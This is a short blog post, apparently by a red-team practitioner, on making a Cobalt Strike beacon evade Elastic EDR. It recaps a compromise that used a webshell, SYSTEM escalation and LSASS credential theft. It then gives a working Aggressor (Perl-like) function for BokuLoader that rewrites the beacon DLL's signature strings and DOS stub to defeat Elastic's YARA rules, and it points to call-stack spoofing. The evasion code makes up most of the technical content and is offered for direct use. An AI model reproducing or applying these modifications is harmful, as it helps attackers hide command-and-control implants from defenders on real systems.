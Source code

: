 ```yaml
---
title: Increase your stealth capabilities - part 2
date: 2024-01-04
categories: [ "Malware Development" ]
tags: [ "research", "command and control", "windows", "edr", "tooling", "detection", "elastic" ]     # TAG names should always be lowercase
---
```


***Note:*** This blog post is the second one of the series *Increase your stealth capabilities*, make sure to have read [the first part](/posts/increase-stealth-capabilities-part1/).

## Recap

During an engagement my teammates and I compromised a Windows server by uploading a webshell then elevated our privilege to SYSTEM and extracted credentials stored in LSASS.
In Part 1, I replayed the scenario in a lab where an Elastic EDR agent is running and we noticed that a lot of detection raised up.
In this Part 2, I will show how we can increase our stealth capabilities by using open source tools and building our own.

## Cobalt Strike modifications

In order to evade Elastic EDR yara rules, I followed the following Fortra [blog post](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature).

Yara rules are pretty easy to evade when you know them… Elastic EDR rules can be found [here](https://github.com/elastic/protections-artifacts/blob/main/yara/rules/Windows_Trojan_CobaltStrike.yar).

I used [xforcered/BokuLoader](https://github.com/xforcered/BokuLoader) (October+ release) to increase evasion capabilities of the Cobalt Strike beacon. This release contains call stack spoofing capabilities that bypass Elastic EDR rules based on call stack analysis. You can learn more about it [here](https://dtsec.us/2023-09-15-StackSpoofin/).

After the User-Defined Reflective Loader included in Cobalt Strike, I made the following changes to the `bokuloader.cna` to bypass Elastic EDR yara rules:

```perl
sub boku_strrep {
	local('$beacon_dll');
	$beacon_dll = $1;
	$beacon_dll = strrep($beacon_dll, "ReflectiveLoader", "__BokuLo4d3r____");
	$beacon_dll = strrep($beacon_dll, "Microsoft Base Cryptographic Provider v1.0", "13367321236742382543232341241261363163151d");
	$beacon_dll = strrep($beacon_dll, "(admin)", "(2omin)");
	$beacon_dll = strrep($beacon_dll, "beacon", "b4con5");
	$beacon_dll = strrep($beacon_dll, "%s as %s\\%s: %d", "%s -> %s\\%s: %d");
	$beacon_dll = strrep($beacon_dll, "%02d/%02d/%02d %02d:%02d:%02d", "%02d/%02d/%02d>%02d:%02d:%02d");
	$beacon_dll = strrep($beacon_dll, "This program cannot be run in DOS mode", "13367321236742383543232341221261363163");
	println("DEBUG - change DOS stub");
	$beacon_dll = strrep($beacon_dll, "\x4D\x5A\x41\x52\x55\x48\x89\xE5", "\x4D\x5A\x41\x52\x55\x48\x89\xE5\x90");
	return $beacon_dll;
}
```

